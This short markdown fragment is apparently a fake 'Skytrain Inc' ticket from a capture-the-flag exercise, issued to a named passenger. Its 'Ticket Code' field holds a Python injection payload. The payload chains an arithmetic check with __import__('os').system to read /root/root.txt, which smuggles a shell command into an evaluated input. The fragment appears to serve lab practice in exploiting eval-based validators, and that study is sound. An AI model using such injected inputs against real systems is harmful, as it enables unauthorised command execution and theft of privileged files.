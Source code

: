 # Skytrain Inc
## Ticket to Nishan Maharjan
__Ticket Code:__
**200+ 24 == 224 and __import__('os').system("cat /root/root.txt")

